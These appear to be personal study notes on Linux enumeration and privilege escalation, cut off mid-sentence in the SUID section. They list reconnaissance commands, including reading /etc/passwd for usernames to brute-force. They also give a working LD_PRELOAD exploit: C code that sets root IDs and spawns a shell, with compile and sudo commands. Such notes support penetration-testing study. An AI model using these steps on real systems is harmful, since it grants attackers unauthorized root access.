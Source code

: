 # Enumeration
## Linux
**Commands:** \
`whoami` - gives the current user \
`hostname` - hostname of target machine \
`uname -a` - prints system information like OS and kernel version, hostname, system time, arch ... \
`ps` - show processes, `-a` or `-e` show all processes, `-axjf` shwo process tree \
`env` - show envirinment variables \
`sudo -l` - show what commands can be run as root with sudo \
`id` -shows user privileges and groups 

**Files** \
`/proc/version` - proc file system (procfs) gives more info about the kernel and istalled tool like compilers \
`/etc/issue` - system file, contains info about the OS \
`/etc/passwd` - shows users and other info, in this context we are only interested in the users \
`cat /etc/passwd | cut -d ":" -f 1` - cuts out only the users in passwd, can be used for brute force attacks

**Network** \
`ifconfig` \
`ip route` \
`netstat` - shows info about existing communications \
>`-a` - shows all listening ports and established conns \
>`-at` / `-au` - lists TCP resp. UDP \
>`-l` - list ports in listening mode \
>`-s` - shows usage statistics by protocol, can be combiled with spesific protocol filters \
>`-p` - shows connections with service name and PID info, can also be combined with specific protocols \
>`-i` - shows interface statistics

**find** \
see [find](https://github.com/leeky-mem/linux-notes/blob/main/commands.md) for basics. For privilege escalation searching for specific permissions is important. \
`-perm mode` - mode can be u,g,o(i.e user,goup,other). In this mode permission bits must match exactly. `-perm o=w` matches only files with mode 0020. \
`-perm -mode` - matches all files wich have mode, but not exclusivly. \  
`find / -perm -u=s -type f 2>/dev/null` - find files with SUID bit set. SUID bit allows to run the file with the privilege level of the owner.

## Automated Enumeration
[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - scrip .sh \
[LinEnum](https://github.com/rebootuser/LinEnum) - script .sh \
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester) - script .sh \
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) - script .sh \
[Linux Priv Checker](https://github.com/linted/linuxprivchecker) - script python or .sh

# Sudo
[GTFOBins](https://gtfobins.github.io/) a list of commands and binaries which can be abused to elevate privileges. \
`sudo -l` - show which commands the current user can use with sudo

## Abusing LD_PRELOAD
The `LD_PPRELOAD` environment option can be abused to spawn root shell with programs that can be executed with sudo.

The steps of this privilege escalation vector can be summarized as follows:

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Compile as a shared library: \
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Run a program we can as root: \
`sudo LD_PRELOAD=/path/to/shell.so <sudoable program>`

## SUID / SGID
Files with the SUID bit set do not drop elevated privileges when executed by a different user.

Find binaries with SUID bit set: \
`find / -type f -perm -04000 -ls 2>/dev/null`

[This](https://gtfobins.github.io/#+suid) list contains binaries that can be used for privilage escalation when SUID bit is set:
